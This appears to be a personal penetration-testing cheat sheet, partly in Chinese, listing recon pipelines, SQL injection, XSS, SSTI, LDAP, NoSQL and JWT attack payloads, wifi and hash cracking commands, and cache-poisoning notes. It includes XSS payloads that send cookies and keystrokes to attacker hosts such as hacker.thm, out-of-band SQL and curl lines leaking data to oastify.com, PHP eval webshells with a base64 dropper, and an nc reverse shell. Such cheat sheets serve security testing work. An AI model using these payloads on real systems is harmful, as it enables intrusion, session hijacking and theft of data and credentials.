 # 思路
# payloads
'
"
`
')
'))
")
"))
`)
`))
' or 1=1 -- -
' and 1=1 -- -
' and ''='
+AND+1=1'+ — +- 
+AND+1=1'+%23[#]
xxx' union select 1,2,3; -- -
XOR(if(now()=sysdate(),sleep(5),0))XOR
"XOR(if(now()=sysdate(),sleep(5),0))XOR"
'XOR(if(now()=sysdate()%2Csleep(15)%2C0))XOR'Z
XOR(if(now()=sysdate(),sleep(9),0))XOR\"Z
XXX'|(IF((now())LIKE(sysdate()),SLEEP(6),0))|'XXX
' || (select '') || '
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
{{7*7}}
{{url_for.__globals__.os.popen('ls').read()}}
"><svg/onload=prompt(1)>
<script>javascript:alert(1)</script\x0D>
<img src/onerror=prompt(1)>
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
<iframe %00 src=\"javascript:prompt(1)\"%00>
<iframe %00 src= javascript:fetch(\"//XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/?param=\"+document.cookie)  %00>
"><svg onlod=confirm()>
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``¹//
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)> url encode + url encode
"><img src=x onerror=alert(document.cookie)>
<href="url" onmouseover=alert(1)>
<iframe %00 src=\"javascript:prompt(1)\"%00>
</script><script>alert(document.domain)</script> url encode
javascript:var{a:onerror}={a:alert};throw%20document.cookie url encode
<?xml version="1.0"?><!DOCTYPE foo SYSTEM "http://XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/">

Recon 资产收集
收集子域 sublist3r — subfinder — asset finder — amass - gobuster
联合
subfinder -d target.com -silent | waybackurls | httpx -silent -sc | nuclei -o out.txt
google dork
site:target inurl:*.php?/*.jsp?  保存成.html文件并提取出全部url地址
cat target.html | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u | grep -E "target.com"
过滤子域 httpx -l subdomains.txt -o httpx.txt
收集API 节点
cat "toyota.com" | gau --threads 5 >> Enpoints.txt
cat httpx.txt | katana -jc >> Enpoints.txt
API/节点 去重
cat Enpoints.txt | uro >> Endpoints_F.txt
API/节点规则匹配 XSS, SQLi, SSRF, etc
cat Endpoints_F.txt | gf xss >> XSS.txt
XSS自动化工具
cat XSS.txt | Gxss -p khXSS -o XSS_Ref.txt
dalfox file XSS_Ref.txt -o Vulnerable_XSS.txt


Tool #1 — Katana
Using a depth-first strategy: katana -u to-crawl.txt -d 5 -jc -ct 1h -aff -fx -s depth-first -o katana-df.txt
Crawl with a breadth-first strategy: katana -u to-crawl.txt -d 5 -jc -ct 1h -aff -fx -s breadth-first -o katana-bf.txt
Using a headless mode: katana -u to-crawl.txt -d 5 -jc -ct 1h -aff -fx -headless -o katana-headless.txt
Tool #2 — Hakrawler
cat to-crawl.txt | hakrawler -d 5 -dr -insecure -t 10 -timeout 3600 | tee hakrawler.txt
Tool #3 — Gospider
gospider -S to-crawl.txt -q -d 5 -c 10 --sitemap --no-redirect -o gospider.txt

https://search.censys.io/
https://www.shodan.io/
Shodan Dork：
Ssl.cert.subject.cn:"sub.target.com" 200
httpx with the following flags: -sc -td -cl


google / duckduckgo.com
site:blog.intigriti.com csrf
site:pentester.land csrf
site:book.hacktricks.xyz csrf
site:cloud.hacktricks.xyz csrf
site:hackerone.com/reports csrf
site:infosecwriteups.com csrf
site:weekly.infosecwriteups.com csrf
site:portswigger.net Cheatsheet

# nmap
nmap -sn ip/idor
nmap -sS/-sT --min-rate 10000 --max-retries 1 --max-scan-delay 20ms -T4 --open -p- ip -oA path
nmap -sU --top-ports 20 ip -oA path
nmap -sU -sV --version-intensity 0 --min-rate 10000 -p- ip -oA path
grep open path | awk -F '/' '{print $1}' | paste -sd ','
nmap  -sT -sV -sC -O -p+ports ip -oA path
nmap -sS/-sT --script=vuln -p+ports ip -oA path
nmap -sU --top-ports 20 ip -oA path

# service
smb--445---smbmap/smbclient/crackmapexec/enum4linux
nfs--------showmount -e  ip  / mount -t nfs ip:/path  filedir 
ftp---21-----anonymous
rsync---873----    rsync -a "rsyn://99.99.99.99/"  check any directories or files
    rsync 99.99.99.99::gentoo/etc/passwd .
    rsync <destination> <source>
    mkdir .ssh && touch .ssh/authorized_keys
    rsync -r ./.ssh/ 192.168.129.126::fox/.ssh
    rsync -r 192.168.129.126::fox
    


# NO nmap 
linux/bash script
for i in {1..254};do ping -c 1 -w 1 192.168.1.$i | grep from;done

# bypass
example.com  403   dig example.com cname xxxxx.xxxx.com  cname域名/file  bypass 限制


#
![安全编码的输入清理技术](https://github.com/isecren/Security/assets/7948479/6b619965-6874-4d95-a5a0-c0a42f2dc605)

# HTTP 主机标头注入攻击
1提供任意主机标头
2注入重复的 Host 标头
3添加换行
4注入主机覆盖标头
5提供绝对 URL

# wifi crack   aircrack-ng工具包
airmon-ng    airmon-ng <start|stop|check> <interface> [channel or frequency]
airodump-ng  interface
airodump-ng --bssid 28:EF:01:35:34:85 -c 6 --write wpa-01 wlan0
aireplay-ng -0 100 -a 28:EF:01:35:34:85 -c 28:EF:01:23:46:68 wlan0
hashcat 破解wifi密码
.cap文件转hashcat格式.hc22000  https://hashcat.net/cap2hashcat/
hashcat –m 22000 wpa-01.hc22000 rockyou.txt
haschcat –m 2200 –a 3 wpa-01.hc22000 ?l ?l ?l ?l ?l ?l ?l ?l ?l ?l


# Tools
nikto
burpsuite
git-dumper  git-dumper http://example.com/.git/ 输出
Weevely - 武器化的 Web shell  weevely generate <password> <path>/weevely <URL> <password> [cmd]

"><img src=x onerror=alert(document.domain)>{{7*7}}'
User-Agent: () {:;}; /usr/bin/nslookup $(.whoami).myserver.com (It’s used to exploit shellshock vulnerability)

# wordpress
cmsmap -s http://www.domain.com -t 2 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0"
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://www.domain.com [--plugins-detection aggressive] --api-token <API_TOKEN> --passwords /usr/share/wordlists/external/SecLists/Passwords/probable-v2-top1575.txt #Brute force found users and search for vulnerabilities using a free API token (up 50 searchs)
#You can try to bruteforce the admin user using wpscan with "-U admin"

Gau

amass enum -active -d $1 -brute -w ~/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -o amass.txt
HTTP/HTTPS
cat amass.txt | httpx | aquatone -out aqua_$1
IP
cat amass.txt | aquatone -ports xlarge -out aqua_$1
nuclei -l aqua_$1/aquatone_urls.txt -t ~/nuclei-templates -es info -o nuclei_$1.txt
nuclei -u xxx.com -ss host-spray -dast
dnsrecon -d domain.com -t axrf # 区域传送漏洞

httpx 进行HTTP测试
httpx -l allDomains.txt -o liveDomains.txt 
httpx -l liveDomains.txt -srd subsScreens -ss  屏幕截图

模糊测试
当我开始对目录进行模糊测试时，不管状态代码是 200,404 还是 403。大多数时候 Gems 都在这些页面内。
ffuf 工具
模糊测试列表：
/jenkins/script

paramspider/arjun 参数测试
eyewitness 检测url，自动屏幕截图
waybackurls -dates http://xxxx/xxx.php   存档数据
SQL 工具
sqlmap/ghauri
python sqlmap.py -u "https://www.target.com/" --skip-waf --tamper="between,randomcase,space2comment" -v 3 --random-agent --tor
sqlmap -u testphp.vulnweb.com --random-agent --crawl=3 --forms --hostname --current-db --smart



# SQL  PayloadsAllTheThings
'
"
`
')
'))
")
"))
`)
`))
oracle -- 
mssql -- /*comment*/ 
mysql -- /*comment*/ #    
postgresql -- /*comment*/ 
各种字符串连接方法 判断数据库类型
oracle 'hel'||'met'  
mssql 'hel'+'met'  
mysql 'hel' 'met'  concat('hel','met')  
postgresql 'hel'||'met'
oracle  substr('string',4,2)  
mssql/mysql/postgresql  substring('string',4,2)

' or 1=1 -- -
' and 1=1 -- -
' and ''='
+AND+1=1'+ — +- 
+AND+1=1'+%23[#]
xxx' union select 1,2,3; -- -
XOR(if(now()=sysdate(),sleep(5),0))XOR
'XOR(if(now()=sysdate()%2Csleep(15)%2C0))XOR'Z
XOR(if(now()=sysdate(),sleep(9),0))XOR\"Z
XXX'|(IF((now())LIKE(sysdate()),SLEEP(6),0))|'XXX
' || (select '') || '
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'

database
Oracle ==> SELECT banner FROM v$version
Microsoft SQL Server ==> SELECT @@version
PostgreSQL ==> SELECT version()
MySQL ==> SELECT @@version
' UNION SELECT null,SUBSTRING(@@version,1,200) LIMIT 0,1 — MySQL version

' UNION SELECT null,SUBSTRING(@@version,1,200) WHERE row = 1 — MS SQL version

' union select null,substr(banner,1,200) from v$version%20 where rownum=1 — Oracle version

' UNION SELECT null,SUBSTRING(version(),1,200) LIMIT 1 — PostgreSQL version

MySQL & MSSQL:       ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,1))='4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
Oracle:              ?lugu=316+AND+(SELECT+SUBSTR(version(),1,1)+FROM+DUAL)='4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
PostgreSQL:          ?lugu=316+AND+(SELECT SUBSTRING(version(), 1, 1) = '4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
INFORMATION_SCHEMA.SCHEMATA ：是存储数据库元数据的系统目录表。
SCHEMA_NAME ：是该表中存储数据库名称的列。
LIKE 'a%' :是过滤数据库名称的条件，仅返回以字母“a”开头的数据库名称。
AND + ( SELECT + 1 + FROM + INFORMATION_SCHEMA.SCHEMATA + WHERE + SCHEMA_NAME + LIKE + '$a$%' ) %3d1  intruder
SELECT table_name FROM information_schema.tables WHERE table_schema =  'your_database_name' ;
+ AND + ( SELECT + 1 + FROM + INFORMATION_SCHEMA.TABLES + WHERE + TABLE_SCHEMA + %3d + 'your_database_name' + AND + TABLE_NAME + LIKE + 'w%' ;) %3d1


# ssti
{{7*7}}
{{url_for.__globals__.os.popen('ls').read()}}
绕过单引号过滤器
有效负载： {{url_for.__globals__.os.popen(request.headers.hack).read()}}


#权限提升
history
search info:grep -R -i pass /home/* 2>/dev/null
bash version < 4.3
shellshock  check cmd:
env x='() { :; };echo "it is vulnerable"' bash -c date




# out of band 带外数据
select load_file(CONCAT('\\\\',(SELECT+@@VERSION),'.',(SELECT+user),'.',(SELECT+password),'.','v950miufeuuf5qgjf4bzv77v0m6du9iy.oastify.com\\vfw'))
curl `whoami`.yeg3rlzijxziatlmk7g20acy5pbgzbn0.oastify.com
curl $(whoami).yeg3rlzijxziatlmk7g20acy5pbgzbn0.oastify.com



# XSS bypass waf
Basic XSS
<script>alert('XSS');</script>
Encoding and Obfuscation
%3Cscript%3Ealert(%27XSS%27)%3B%3C%2Fscript%3E
Bypassing Advanced Filters with Polyglots
jaVasCript:/*-/*`/*\\\\`/*'/*"/**/(/* */oNcliCk=alert())//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!> <sVg/<sVg/oNloAd=alert()//>\\\\x3e


<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
<iframe %00 src=\"javascript:prompt(1)\"%00>
<iframe %00 src= javascript:fetch(\"//XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/?param=\"+document.cookie)  %00>
"><svg onlod=confirm()>
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``¹//
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)> url encode + url encode
"><img src=x onerror=alert(document.cookie)>
<href="url" onmouseover=alert(1)>
<iframe %00 src=\"javascript:prompt(1)\"%00>
</script><script>alert(document.domain)</script> url encode
javascript:var{a:onerror}={a:alert};throw%20document.cookie url encode

尝试：
try URL encode
try double URL encode.
try triple URL encode.
try base64 encode.
文件上传 XSS---修改文件名参数以包含 XSS 负载
a) <img src=x onerror=alert('XSS')>.png
b) "><img src=x onerror=alert('XSS')>.png
c) "><svg onmouseover=alert(1)>.svg
d)<<script>alert('xss')<!--a-->a.png



# 原型污染是一种javascript漏洞，攻击者可以将任意属性添加到全局变量原型，然后这些属性可能被用户定义的对象继承。

# jwt 
bypass 绕过验证
CVE-2023-30845 通过使用 X-HTTP-Method-Override 请求标头绕过 JWT 检查！
curl http://example.com/api -X POST -H 'X-HTTP-Method-Override: PUT' -H 'Content-Type: application/json' --data '{"username":"xxx"}'
未经验证的签名--忘记验证签名了
越权漏洞等

签名有验证缺陷--NONE算法 alg->none
jwt_tools.py jwt-token -X a

破解弱共享密码
注意：必须是HMAC-SHA算法
jwt_tools.py jwt_token -C -d jwt_secrets.txt
echo jwt_token > jwt_file
hashcat -a 0 -m 16500 jwt_file  jwt_secrets --force

算法混淆攻击 RSA->HS256
构造jwt
jwt editor keys插件
1、获取公钥 public key
/jwks.json  /.well-known/jwks.json等
2、JWT Editor Keys 点击 NEW RSA KEY，复制jwks.json种key的值到jwk框，点击ok
copy public key as PEM 对其base64编码
3、点击new symmetric key 点generate 并替换K的值为pem编码后的值
4、回到请求体jwt，进行sign签名

标头参数住入
Jwk 注入
jwt editor keys插件
New rsa KEY generate
回到请求体jwt，attack embedded jwk
Jku 
jwt editor keys插件
1、生成一个RSA密钥 copy public key as jwk
2、创建一个webserver URL http://xxxx.xxx/jwk
3、回到请求体jwt，修改kid，添加jku,替换sub
kid 注入
jwt editor keys插件
1、生成new symmetric key generate
2、对称密钥 k值覆盖为null (base64编码)
3、回到请求体jwt，修改kid的值为../../../../../../dev/null
4、修改sub,点击 sign 签名


# LDAP
payload:")(cn=))(|(objectClass=*"
"(&(cn=))(|(uid=))(|(objectClass=*))(userpassword=[password])"
login bypass
user=*
password=*
--->(&(user=*)(password=*))
user=*)(&
password=*)(&
-->(&(user=*)(&)(password=*)(&))
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))

# webshell
.htaccess文件
AddType指定
AddType application/x-httpd-php .png
将.png当作php文件解析
木马
上传文件，php扩展文件.phtml .phar .ptar
<?php phpinfo(); ?>
<?php 
@eval($_POST['cmd']);
?>
<?php
@eval($_REQUEST['cmd']);
?>
<?php system("whoami"); ?>
<?php
file_put_contents("shell.php","<?php @eval($_POST['cmd']); ?>");
file_put_contents("shell.php",base64_decode("PD9waHAgCkBldmFsKCRfUE9TVFsnY21kJ10pOyAKPz4="));
?>

#  Kubernetes 
使用kubectl get services --all-namespaces列出集群中的所有服务，然后查找类型为“LoadBalancer”或“NodePort”的服务。
如果您的集群中设置了 Ingress 控制器，您也可以使用此命令kubectl get ingress --all-namespaces
获取Kubernetes 集群中公开的服务
这种错误配置允许通过向节点的 IP 和端口组合发送请求来与反向代理直接通信，完全绕过负载均衡器
curl -i -s -k -X $’GET’ \
-H $’Host: service-1.kube.com’ \
$’https://<NODE-IP:8888>/'
发现敏感服务
1、crt.sh   "k8s.%.com"
2、github
3、端口扫描 Kubernetes 集群中可能会开放以下端口（取自Kubernetes 研讨会演示）：
4、探索网络插件  cAdvisor 
查找集群配置错误
当 Kubernetes API 暴露于远程交互时，此部分非常有用。
1. 检查API服务器的匿名访问
2. 检查ETCD匿名访问
如果ETCD可以匿名访问，您可能需要使用etcdctl工具。以下命令将获取存储的所有密钥：
etcdctl –endpoints=http://<MASTER-IP>:2379 get / –prefix –keys-only
3、检查Kubelet（只读端口）信息暴露情况

# bypass waf
alert = window[“al”+“ert”]。通过将“alert”关键字分成两部分并使用串联，我们可以避开 WAF 可能使用的简单关键字过滤器
用这个 `` 绕过括号 ()
用正斜杠 (/) 替换空格。此更改有助于避免 WAF 过滤器检测到可能寻找特定字符组合的情况
对符号进行编码是绕过 WAF 保护的重要组成部分。以下是该技术中使用的符号编码：
< 编码为 %3c
> 编码为 %3e
“ 编码为 %22
[ 编码为 %5b
] 编码为 %5d
` 编码为 %60
未编码有效负载：<svg/onload=window[“al”+”ert”]`1337`>

# IDOR 不安全直接对象引用
需要两个账号进行测试

# 敏感信息泄露
1、发现敏感信息-key
2、进行 Google 搜索 使用键名后跟术语“api docs curl”进行 Google 搜索，发现API接口

# SSTI 
payload: {{7*7}} 得到结果49 证明存在
读取etc/passwd  {{system('cat /etc/passwd')}}

路径遍历的根本原因是缺乏路径规范化
os.path.normpath(path).startswith("/app/resources")
注入漏洞的根本原因在于将数据视为代码
将数据与代码分离并对输入执行上下文转义。这种技术的一个主要例子是参数化查询。它隔离数据库查询的输入并执行转义




# 源码审计
SonarQube 这样的工具
XSS:
grep -Ri "\$_" . | grep "echo"
grep -Ri "\$_GET" . | grep "echo"
grep -Ri "\$_POST" . | grep "echo"
grep -Ri "\$_REQUEST" . | grep "echo"

Command execution:
grep -Ri "shell_exec(" .
grep -Ri "system(" .
grep -Ri "exec(" .

Code execution:
grep -Ri "eval(" .
grep -Ri "assert(" .
grep -Ri "preg_replace" . | grep "/e"

SQL Injection:
grep -Ri "\$sql" .
grep -Ri "\$sql" . | grep "\$_"

RFI/LFI:
grep -Ri "file_include" .
grep -Ri "include(" .
grep -Ri "require(" .
grep -Ri "include_once(" .
grep -Ri "require_once(" .
grep -Ri "require_once(" . | grep "\$_"

# nosql
{"username":"carlos","password":{"$ne":""},"$where":"Object.keys(this)[0].match('^.{§0§}§a§.*')"}
{"username":"carlos","password":{"$ne":""},"$where":"Object.keys(this)[1].match('^.{§0§}§a§.*')"}
{"username":"carlos","password":{"$ne":""},"$where":"this.resetToken.match('^.{§0§}§a§.*')"}



import pty
pty.spawn("/bin/bash")
pe 提权
suid 
ps -aux | grep root
<?php system("nc ip port -e /bin/bash")?>
hashcat / john the ripper
hashcat -m 0 hashcat.txt rockyou.txt  字典攻击
hashcat -a 3 -m 0 hashcat.txt ?a?a?a?a?a?a  蛮力破解 6个小写字母
hashcat -m 0 hashcat.txt rockyou.txt -o crack_password.txt 输出到文件crack_password.txt
flipper zero 一款小型手持设备，将各种硬件工具的功能整合到一个口袋大小的小工具中。
flipper zero 多协议支持  rfid nfc 红外 蓝牙
web缓存中毒/缓存欺骗
缓存位于服务器和用户之间，它保存特定请求的响应
URL: /MyAccount;var1=val → Path: /MyAccount

URL: /hello;var=a/world;var1=b;var2=c → Path: /hello/world
URL: /MyAccount.html → Path: /MyAccount (default HTML view)

URL: /MyAccount.css → Path: /MyAccount (CSS view or error if not present)

URL: /MyAccount.aaaa → Path: /MyAccount (default HTML view)
URL: /MyAccount%00aaa → Path: /MyAccount
Rule: rewrite /user/(.*) /account/$1 break;
URL: /users/MyAccount%0aaaa → Path: /account/MyAccount
Detecting origin delimiters
Detecting cache delimiters
GET /static-endpoint<DELIMITER><Random>
"/myAccount%3Fparam" → "/myAccount?param"
/home/index → /%68%6f%6d%65%2f%69%6e%64%65%78
GET /home/index?cacheBuster

GET /aaa/../home/index?cacheBuster or GET /aaa\..\home/index?cacheBuster
![image](https://github.com/user-attachments/assets/7cf1e8db-3ad5-415d-a9c5-9dc6e25a4c99)
![image](https://github.com/user-attachments/assets/d5873bcd-44ad-45ba-9966-91bcb18bb117)
![image](https://github.com/user-attachments/assets/2385c2b3-df86-4b2b-a8fc-078e71beebe9)
![image](https://github.com/user-attachments/assets/86d31c2d-5676-412f-92bf-c73bb98b351a)
/static
/assets
/wp-content
/media
/templates
/public
/shared
GET /<Dynamic_Resource><Delimiter><Encoded_Dot_Segment><Static_Directory>
![image](https://github.com/user-attachments/assets/a5f1626c-9105-4a5f-bf4c-7c09bfb4a5ca)
GET /<Static_Directory><Encoded_Dot_Segment><Dynamic_Resource>
![image](https://github.com/user-attachments/assets/a068ae91-9d6d-46a2-8910-311a3d971117)
![image](https://github.com/user-attachments/assets/d5fa6590-6946-4ee6-95ca-7e483270e8dd)
GET /<Dynamic_Resource><Delimiter><Encoded_Dot_Segment><Static_File>
![image](https://github.com/user-attachments/assets/43cdadf2-26d3-4ab6-a9b1-23c550ee195a)
GET /<Backend_Path><Path_Traversal><Poisoned_Path>
![image](https://github.com/user-attachments/assets/4c14ebae-5b48-4671-a2bd-6b4f5d8b5ae7)
GET /<Backend_Path><Delimiter><Path_Traversal><Poisoned_Path>
![image](https://github.com/user-attachments/assets/3f4db0b1-b0bb-40c8-a2af-063d4b97bffb)
![image](https://github.com/user-attachments/assets/1adc4181-57d1-43da-8a7b-195e31a5d7e7)
GET /<Poisoned_Path><Front-End_Delimiter><Path_Traversal><Backend_Path>












burp suite param miner 
find 未键入的标头
x-forwarded-host: burpclist html注入
nmap 信息收集
gobuster dir -u url -w medium.txt
源代码  javascript
默认密码  admin admin admin password
cms exploit-db 找cms漏洞
github 找是否开源  分析源代码 和配置文件
mysql -u user -p password -h ip
找到管理后台的用户名和密码 更新管理员的密码为自己的密码
使用用户名和新的密码登陆管理后台
在利用exploit-db中的漏洞上传php reverse shell
攻击机上nc -lnvp port  获取web shell
pe 提权
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo -l 列出当前用户可以提升的权限运行的允许的命令
all:all all
sudo /bin/sh
whoami
root
邀请新成员业务逻辑
错误配置 在用户接受邀请之前，成员数量不会增加 我们可以先将邀请链接发送给10位成员，然后接受所有成员
无计划用户可以邀请成员
拦截将可以邀请用户的API信息修改成普通用户的，发送成功，邀请用户成功
创建浏览器配置文件时的竞争条件
burp suite turbo intruder  添加一个随机位置作为有效载荷位置并增加线程
低权限用户可以通过API查看工作区数据  越权
原始IP地址泄露造成绕过防火墙
wazuh开源安全信息和事件管理工具（SIEM）
aws/s3存储桶的子域
subfinder 侦察子域工具
subzy 检查子域名签名 aws情况下 签名将是指定的存储桶不存在

john the ripper 多功能开源密码破解工具 旨在通过各种攻击方法破解弱密码
john hashed_passwords.txt
john --wordlist=单词列表文件 密码文件
john --incremental 密码文件
john --wordlist=单词列表文件 --rules 密码文件
john --wordlist=rockyou.txt hashed_passwords.txt
john --incremental hashed_passwords.txt
john --wordlist=rockyou.txt --rules hashed_passwords.txt
dos 登陆部分 password 长度  长密码 10000 在服务器上计算密码的哈希值 
for x in range(50000,500000,10000):
    print("a"*x)
判断响应时间是否存在延迟
其它地方
注册页面 长密码
忘记密码 长密码
修改密码 长密码
更改密码 长密码
google cloud armor 是web应用防火墙
pdf html 注入中ssrf的利用
ssrf完全读取和盲读取
hydra
http-post-form
http-get-form
hydra -l 用户名 -P 密码列表 ip/url http-post-form "/登录页面地址:登录请求:F=错误消息"
hydra -l 用户名 -P 字典 ip -t 4 ssh
wdms web的数据主控系统 先进的中间件
<svg/onload=alert(document.location)>


#  grafana 漏洞
http://x.x.x.x:3000/api/plugins?embedded=0

